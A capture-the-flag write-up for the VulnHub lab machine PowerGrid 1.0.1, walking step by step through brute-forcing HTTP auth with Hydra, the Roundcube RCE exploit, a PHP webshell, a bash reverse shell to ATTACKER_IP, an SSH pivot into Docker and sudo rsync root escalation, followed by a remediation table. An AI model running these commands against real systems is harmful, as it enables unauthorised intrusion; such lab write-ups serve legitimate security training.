




# PowerGrid: 1.0.1 — Writeup

| | |
|-|-|
| **Target IP** | powergrid.vh (host-only) |
| **Difficulty** | Hard |
| **OS** | Linux |
| **Author** | TheCyberGeek & Phpr0phyt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/powergrid-101,485/) |

## Attack Summary

`nmap` → web user enumeration → Hydra HTTP-Auth brute force → Roundcube webmail (EDB-40892 RCE) → PHP webshell → reverse shell → GPG-encrypted SSH key decryption → SSH pivot into Docker → `sudo rsync` privesc → root across two hosts

## Methodology

1. Network discovery and hostname setup
2. Web enumeration for usernames
3. HTTP Basic Auth brute force with Hydra
4. Roundcube RCE (CVE-2017-16651 / EDB-40892)
5. PHP webshell upload and reverse shell
6. GPG key decryption and SSH pivot into Docker
7. sudo rsync privilege escalation

---

## Step 1: Network Setup and Port Scan

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
# Add to /etc/hosts:
echo "192.168.X.X powergrid.vh" >> /etc/hosts

nmap -A -p- powergrid.vh
```

Services: 80 (HTTP/Roundcube webmail), 143 (IMAP), 993 (IMAPS), possibly 22 (SSH).



---

## Step 2: User Enumeration

Browse the web application. The landing page or directory listing reveals usernames: **deez1**, **p48**, **all2**.


---

## Step 3: HTTP Basic Auth Brute Force

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt powergrid.vh http-get /zmail/ -e nsr
```

Where `/zmail/` is the password-protected Roundcube directory. Credentials obtained for one of the three users.

---

## Step 4: Roundcube RCE (EDB-40892)

Log into Roundcube webmail. Check version and apply exploit-db 40892 (Roundcube < 1.3.3 remote code execution):

```bash
# Download exploit
searchsploit -m 40892

# Check for a PGP-encrypted email; use the brute-forced password to decrypt the private key
# The email contains an encrypted message — password reuse decrypts the GPG key

python 40892.py http://powergrid.vh/zmail/ <user> <pass>
# Creates info.php as proof-of-concept
```

Upload a URL-encoded PHP webshell to the web root:

```bash
# Via the exploit or manually upload:
# <?php passthru($_GET['cmd']); ?>
# Test: http://powergrid.vh/zmail/cmd.php?cmd=id
```



---

## Step 5: Reverse Shell

```bash
nc -lvp 4444
```

Trigger via webshell (URL-encoded):

```
http://powergrid.vh/zmail/cmd.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/ATTACKER_IP/4444+0>%261'
```

Shell received as `www-data`.

---

## Step 6: GPG Key Decryption and SSH Pivot

Find the GPG private key in `/home/`:

```bash
find /home -name "*.asc" -o -name "*.gpg" 2>/dev/null
# Import and decrypt using the Roundcube user's password
gpg --import <keyfile>
# Or: decrypt online if native gpg fails

# Recovered SSH private key → connect to Docker container
chmod 600 ssh_key
ssh -i ssh_key p48@<docker_container_ip>
```

Read flag 2 inside the container.



---

## Step 7: Privilege Escalation via sudo rsync

Inside the Docker container:

```bash
sudo -l
# User can run: (root) NOPASSWD: /usr/bin/rsync

# GTFOBins rsync:
sudo rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# or:
sudo rsync --no-iconv -a --rsync-path="rsync --no-iconv && sh" 127.0.0.1:/ /tmp/

id    # uid=0(root)
cat /root/flag3.txt
```

Pivot to final host and read the last flag.



---

## Lessons Learned

1. **Credential reuse across services** — the Roundcube password also decrypted the GPG key; test every password against every service found
2. **Roundcube RCE (EDB-40892)** — webmail platforms are often overlooked; keep them patched
3. **sudo rsync LPE** — rsync's `--rsync-path` flag allows arbitrary command execution when run as root
4. **Docker breakout via SSH pivot** — internal Docker networks are reachable once you have a shell on the host

## Remediation

| Vulnerability | Fix |
|---|---|
| HTTP Basic Auth brute-forceable | Enable account lockout or use client certificates |
| Roundcube < 1.3.3 RCE | Upgrade Roundcube to latest version |
| Password reuse (webmail = GPG key) | Use unique passwords; rotate after discovery |
| sudo rsync NOPASSWD | Remove from sudoers; audit all sudo rules |
| Docker network accessible from host shell | Network segment Docker; restrict outbound from web shell |
